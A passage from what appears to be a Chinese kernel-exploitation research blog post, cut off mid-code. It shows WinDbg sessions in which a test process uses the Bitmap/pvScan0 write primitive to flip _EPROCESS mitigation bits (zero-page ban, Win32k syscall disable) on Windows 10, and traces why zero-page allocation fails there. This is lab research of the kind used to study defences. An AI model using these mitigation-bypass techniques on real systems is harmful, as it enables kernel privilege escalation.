 [![](./img/85579/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01eb9345f255ef4987.png)

    我和大家分享了pvScan0在Bitmap这种data attack中的核心地位，Bitmap的pkernelAddress的获取方法和如何通过pvScan0完成攻击，接下来，我将结合偶像MJ0011的PPT，来讲一下Win10的一些坑，以及回归Win8下来看一下MJ0011的PPT中介绍的一些防护机制，和Bitmap的威力。

 

**被Win10吊打的日子**

在MJ0011的PPT中介绍了几种防护机制，比如禁零页，禁Win32k调用，SMEP，ExPoolWithTagNX等等。本来刚开始想在Win10下进行实验，但是发现Win10下有很多奇怪的坑。这里简单提一下几种防护机制：

1、禁零页，NtAllocateVirtualMmemory是现在常用的内核漏洞利用手法，Win8 _EPROCESS增加了一比特的Flags.VdmAllowed，当为0时禁用，当为1时可用。

2、禁Win32k，Win32k存在很多漏洞，比如UAF，我在前面两个经典内核漏洞调试的分享中都是Win32k出的问题，这里通过_EPROCESS结构增加一比特的Flags2.DisallowWin32kSystemCalls禁用调用。

3、SMEP，在内核漏洞利用中，通常是利用内核态的一些失误执行用户态申请的空间存放的shellcode，这里直接通过SMEP禁止在内核态执行用户态空间的代码。这里，我将以禁Win32k调用和禁零页来做实验，利用的就是Bitmap来修改这两个比特的值，看看能不能绕过禁用机制，首先来看一下当前进程，以及对应的两个值。

```
kd&gt; !process
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS VdmAllowed ffffe28d12cb2080
   +0x304 VdmAllowed : 0y0//标志位为0，禁用零页
kd&gt; dt nt!_EPROCESS DisallowWin32kSystemCalls ffffe28d12cb2080
   +0x300 DisallowWin32kSystemCalls : 0y0//标志位为1，默认不禁用Win32k
kd&gt; dd ffffe28d12cb2080+300 L4 //查看一下Flags2和Flags的值
ffffe28d`12cb2380  0000d000 144d0c01 a1beb1e1 01d288e0
```

可以看到，在当前进程Win32k API是不禁用的，也就是说，我们仍然可以直接调用Win32k的API，而NtAllocateVirtualMemory则处于禁用状态。对于Flags来说是0000d0000，Flags2来说是144d0c01，这样把它们转换成二进制，把对应比特位置换为1（这个内容可以在我的源码中看到），然后赋值给各自的Flags。

```
kd&gt; r r13//获取两个Flags值，并且修改比特位之后的值
r13=a1beb1e1164d0c00
kd&gt; r r14
r14=144d0c018000d000
kd&gt; g//命中软中断
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; dd ffffe28d12cb2080+300 L4//修改后，通过SetBitmap写入偏移
ffffe28d`12cb2380  8000d000 164d0c01 a1beb1e1 01d288e0
```

这里我采用了Win7零页分配的方法，handle选择0xffffffffffffffff，但是发现在Win10中，会调用ObpReferenceObjectByHandleWithTag函数Check handle，如果不是一个有效的handle，则直接返回，NTSTATUS直接报错。

```
kd&gt; p
nt!MiAllocateVirtualMemory+0x7b8:
fffff801`7cee27c8 498bca          mov     rcx,r10
kd&gt; p //ObpReferenceObjectByHandleWithTag check handle
nt!MiAllocateVirtualMemory+0x7bb:
fffff801`7cee27cb e8a0070100      call    nt!ObpReferenceObjectByHandleWithTag (fffff801`7cef2f70)
kd&gt; p
nt!MiAllocateVirtualMemory+0x7c0:
fffff801`7cee27d0 89442464        mov     dword ptr [rsp+64h],eax
kd&gt; r eax//没有这个handle则返回NTSTATUS
eax=c0000008
// ObpReferenceObjectByHandleWithTag 检查逻辑
  if ( (BugCheckParameter1 &amp; 0x80000000) != 0i64 )
  {
```